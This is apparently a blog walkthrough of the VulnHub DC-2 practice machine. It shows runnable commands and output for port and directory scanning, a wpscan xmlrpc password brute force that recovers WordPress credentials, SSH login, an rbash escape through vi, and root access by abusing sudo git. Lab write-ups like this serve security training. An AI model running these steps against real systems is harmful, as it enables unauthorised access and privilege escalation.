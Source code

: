 ```yaml
---
layout: post
author: H4
---
```


[Details](https://www.vulnhub.com/entry/dc-2,311/)

# enumeration
Performing a simple `nmap` scan to identify the attack surface.

## nmap
```bash
nmap -Pn -p80,7744 -sV  192.168.239.194 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-08 04:31 EDT
Nmap scan report for dc-2 (192.168.239.194)
Host is up (0.026s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.37 seconds
```

## gobuster
Using `gobuster` to look for hidden files on the identified web server.

```bash
gobuster dir -u http://dc-2/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -t 10 -x php -b 404,403
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://dc-2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/05/08 03:59:37 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 301) [Size: 0] [--> http://dc-2/]
/xmlrpc.php           (Status: 405) [Size: 42]                  
/wp-login.php         (Status: 200) [Size: 2165]                
/readme.html          (Status: 200) [Size: 7413]                
/license.txt          (Status: 200) [Size: 19935]               
/wp-config.php        (Status: 200) [Size: 0]                   
/wp-trackback.php     (Status: 200) [Size: 135]                 
/wp-settings.php      (Status: 500) [Size: 0]                   
/wp-cron.php          (Status: 200) [Size: 0]                   
/wp-blog-header.php   (Status: 200) [Size: 0]                   
/wp-links-opml.php    (Status: 200) [Size: 215]                 
/wp-load.php          (Status: 200) [Size: 0]                   
/wp-signup.php        (Status: 302) [Size: 0] [--> http://dc-2/wp-login.php?action=register]
/wp-activate.php      (Status: 302) [Size: 0] [--> http://dc-2/wp-login.php?action=register]
                                                                                            
===============================================================
2022/05/08 04:01:42 Finished
===============================================================
```

> It seems that `wordpress` is installed on the web server. `wpscan` reveals that wordpress version `4.7.10` is used and outdated.
{: .prompt-tip }

---

# exploitation
## wordpress
Looking for exploits against `wordpress 4.7.10`

```bash
searchsploit wordpress Core 4.7
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                |  Path
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
WordPress Core 4.7.0/4.7.1 - Content Injection                                                                                                | linux/webapps/41223.py
WordPress Core 4.7.0/4.7.1 - Content Injection (Ruby)                                                                                         | linux/webapps/41224.rb
WordPress Core < 4.7.1 - Username Enumeration                                                                                                 | php/webapps/41497.php
WordPress Core < 4.7.4 - Unauthorized Password Reset                                                                                          | linux/webapps/41963.txt
WordPress Core < 4.9.6 - (Authenticated) Arbitrary File Deletion                                                                              | php/webapps/44949.txt
WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts                                                                       | multiple/webapps/47690.md
WordPress Core < 5.3.x - 'xmlrpc.php' Denial of Service                                                                                       | php/dos/47800.py
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
- `WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts` looks promising  
- `http://dc-2/?static=1&order=asc` reveals the 'secret' content  
  
> The site gives the hint that `cewl` might be a good idea. `cewl` generates custom wordlists it scrapes from the website you provide.
{: .prompt-tip }

```bash
cewl -d 2 -w ourWordlist.txt "http://dc-2/?static=1&order=asc"
```

Then we are using `wpscan` to identify accounts on the `wordpress` site and perform a brute force attack with the generated wordlist.  
> We are using the `xmlrpc` endpoint here instead of the 'normal' login page, because in this way we can perform multiple login attemps with one xml-rpc call.
{: .prompt-info }

```bash
wpscan --url http://dc-2/ --password-attack xmlrpc -P /home/void/Documents/web200/playgrounds/dc2/ourWordlist.txt                                                      
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.18
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://dc-2/ [192.168.239.194]
[+] Started: Sun May  8 04:16:03 2022
...
[+] Performing password attack on Xmlrpc against 3 user/s
[SUCCESS] - jerry / adipiscing 
[SUCCESS] - tom / parturient                                                                                                                                                    
Trying admin / Powered Time: 00:01:23 <=====================================================                                                > (780 / 1458) 53.49%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient
...
```
Yay! we got two valid credentials for the `wordpress` instance.  
> Unfortunately both accounts cannot be used to upload a `plugin` or escalate to an `rce`.  
{: .prompt-danger }

## ssh
On port 7744 there is a `SSH` service
> logging in with `tom:parturient` works
{: .prompt-tip }

```bash
ssh tom@dc-2 -p 7744                                                                                                                                                  
The authenticity of host '[dc-2]:7744 ([192.168.239.194]:7744)' can't be established.
ED25519 key fingerprint is SHA256:JEugxeXYqsY0dfaV/hdSQN31Pp0vLi5iGFvQb8cB1YA.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[dc-2]:7744' (ED25519) to the list of known hosts.
tom@dc-2's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
tom@DC-2:~$ ls
flag3.txt  local.txt  usr
tom@DC-2:~$ cat local.txt
-rbash: cat: command not found
```

> `rbash` is in place and the program `cat` cannot be found. `rbash` is a restricted shell which is used to jail a user, so he cannot execute certain commands and act as a normal user.
{: .prompt-danger }

## escaping rbash
```bash
tom@DC-2: vi
:set shell=/bin/bash
:shell
tom@DC-2:~$ cat local.txt
bash: cat: command not found
```
Yay! We escaped `rbash` but cat is still not available.

## cat alternative to get the first flag
```bash
tom@DC-2:~$ less local.txt
```
-> `9******************************c`

## privilege escalation
Try to identify if the user `tom` is able to execute commands as a super user.

```bash
echo $PATH
/home/tom/usr/bin
export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
tom@DC-2:/var/www/html$ sudo -l
[sudo] password for tom: 
Sorry, user tom may not run sudo on DC-2.
```

As `tom` is not allowed to do so, we are switching to the other user we know and check if this one is able to perform commands as a super user.

```
tom@DC-2:~$ su jerry
Password: 
jerry@DC-2:/home/tom$ sudo -l
Matching Defaults entries for jerry on DC-2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jerry may run the following commands on DC-2:
    (root) NOPASSWD: /usr/bin/git
```

Checking [gtfobins](https://gtfobins.github.io/) to identify how we can exploit `git` to gain root access

```
sudo git -p help config
...
!/bin/sh
# cd /root
# ls
final-flag.txt  proof.txt
# less proof.txt
6******************************7
```
-> `6******************************7`  
  
Pwned! <@:-)
